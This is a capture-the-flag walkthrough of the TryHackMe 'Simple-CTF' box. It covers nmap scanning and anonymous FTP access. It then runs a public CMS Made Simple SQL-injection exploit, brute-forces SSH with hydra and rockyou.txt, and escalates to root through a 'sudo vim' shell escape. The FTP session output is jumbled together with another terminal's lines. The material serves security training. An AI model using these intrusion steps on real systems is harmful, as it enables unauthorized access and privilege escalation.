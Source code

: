 # Simple-CTF
### Nmap
`nmap -v -sC -sV -oN <DIRECTORY> $IP` ``` Host is up (0.39s 
latency). Not shown: 997 filtered ports PORT STATE SERVICE 
VERSION 21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230) _Can't 
|get directory listing: TIMEOUT
| ftp-syst:
|   STAT: FTP server status:
|      Connected to ::ffff:10.11.12.253 Logged in as ftp 
|TYPE: ASCII No session bandwidth limit Session timeout in 
|seconds is 300 Control connection is plain text Data 
|connections will be plain text At session startup, client 
|count was 2 vsFTPd 3.0.3 - secure, fast, stable _End of 
|status
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods: _ Supported Methods: POST OPTIONS GET HEAD 
|http-robots.txt: 2 disallowed entries _/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu) _http-title: 
|Apache2 Ubuntu Default Page: It works
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu 
Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 
|(RSA) 256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c 
|(ECDSA) _ 256 
|12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: 
cpe:/o:linux:linux_kernel ```
### FTP
`$ ftp $IP` `ftp> ls -al` ``` ftp> ls -al 
│root@kali:~/Documents/TryHackMe/Simple-Ctf# ls 200 PORT 
command successful. Consider using PASV.  │Information 150 
Here comes the directory listing.  
│root@kali:~/Documents/TryHackMe/Simple-Ctf# ls drwxr-xr-x 3 
ftp ftp 4096 Aug 17 2019 .  │ForMitch.txt Information 
drwxr-xr-x 3 ftp ftp 4096 Aug 17 2019 ..  
│root@kali:~/Documents/TryHackMe/Simple-Ctf# ping 
10.10.56.123 drwxr-xr-x 2 ftp ftp 4096 Aug 17 2019 pub │PING 
10.10.56.123 (10.10.56.123) 56(84) bytes of data. 226 
Directory send OK.  │64 bytes from 10.10.56.123: icmp_seq=1 
ttl=63 time=275 ms ftp> cd pub │^C 250 Directory successfully 
changed.  │--- 10.10.56.123 ping statistics --- ftp> ls │2 
packets transmitted, 1 received, 50% packet loss, time 1002ms 
200 PORT command successful. Consider using PASV.  │rtt 
min/avg/max/mdev = 274.740/274.740/274.740/0.000 ms 150 Here 
comes the directory listing.  
│root@kali:~/Documents/TryHackMe/Simple-Ctf# mv ForMitch.txt 
Information/ -rw-r--r-- 1 ftp ftp 166 Aug 17 2019 
ForMitch.txt │root@kali:~/Documents/TryHackMe/Simple-Ctf# ls- 
al 226 Directory send OK.  │-bash: ls-: command not found 
ftp> get ForMitch.txt 
│root@kali:~/Documents/TryHackMe/Simple-Ctf# ls local: 
ForMitch.txt remote: ForMitch.txt │Information 200 PORT 
command successful. Consider using PASV.  
│root@kali:~/Documents/TryHackMe/Simple-Ctf# cd Information/ 
150 Opening BINARY mode data connection for ForMitch.txt (166 
bytes).  
│root@kali:~/Documents/TryHackMe/Simple-Ctf/Information# ls 
-al 226 Transfer complete.  │total 20 166 bytes received in 
0.00 secs (2.0039 MB/s) ``` `$ cat ForMitch.txt` ``` Dammit 
man... you'te the worst dev i've seen. You set the same pass 
for the system user, and the password is so weak... i cracked 
it in seconds. Gosh... what a mess! ```
### Port 80
> We go to the Browser for observing the Web-App
![Screenshot_2020-09-04_07-15-11](https://user-images.githubusercontent.com/56790998/92246651-0f733380-ee94-11ea-94cd-1ddb3bb2179e.png)
> We try searching for Robots.txt but the given directory 
> doesn't exist
![robots 
txt](https://user-images.githubusercontent.com/56790998/92246753-329de300-ee94-11ea-87f1-d1a68332f6aa.png)
> Since Gobuster was slow I tried to brute-force direectory 
> myself starting with the name of box *SIMPLE*
`$ curl http://$IP/simple` ``` <!DOCTYPE HTML PUBLIC 
"-//IETF//DTD HTML 2.0//EN"> <html><head> <title>301 Moved 
Permanently</title> </head><body> <h1>Moved Permanently</h1> 
<p>The document has moved <a 
href="http://10.10.56.123/simple/">here</a>.</p> <hr> 
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.56.123 Port 
80</address> </body></html> 
root@kali:~/Documents/TryHackMe/Simple-Ctf# ```
> Since it returned 301 we check that page
![simple_cms_home_page](https://user-images.githubusercontent.com/56790998/92247248-f323c680-ee94-11ea-9a50-0372f0de05c7.png)
## Enumeration
`$ searchsploit CMS made simple` 
![searchsploit](https://user-images.githubusercontent.com/56790998/92247687-8ceb7380-ee95-11ea-8d1e-80d50511df6f.png) 
![highlighted-exploit](https://user-images.githubusercontent.com/56790998/92247764-a8ef1500-ee95-11ea-88b3-d82d9100399a.png) 
`$ searchsploit -m php/webapps/46635.py` `$ mv 46635.py 
exploit.py` `$ pip install termcolor` `$ python exploit.py -u 
http://$IP/simple --crack -w 
/usr/share/wordlists/rockyou.txt`
> since this script takes a lot of time and its better to run 
> 2 enumeration we can try brute-forcing SSH using HYDRA
and user as mitch which we got from FTP `$ hydra -l mitch -P 
/usr/share/wordlists/rockyou.txt $IP -s 2222 -Vv` ``` 
[2222][ssh] host: 10.10.56.123 login: mitch password: secret 
``` `$ ssh mitch@10.10.56.123 -p 2222`
## Privilege Escalation
`$ which python3` ``` /usr/bin/python3 ``` `$ python3 -c 
'import pty;pty.spawn("/bin/bash")'` `$ sudo -l` ``` 
mitch@Machine:~$ sudo -l User mitch may run the following 
commands on Machine:
    (root) NOPASSWD: /usr/bin/vim ``` `$ sudo vim`
> Press escape then : and type shell
`:shell` `# whoami` ``` root ``` `# ls /home/mitch/user.txt` 
![user](https://user-images.githubusercontent.com/56790998/92249305-d89f1c80-ee97-11ea-9d21-ecb187edf5e3.png) 
`# ls /root/root.txt` 
![root](https://user-images.githubusercontent.com/56790998/92249210-b0172280-ee97-11ea-93f5-0152bc87dc23.png)
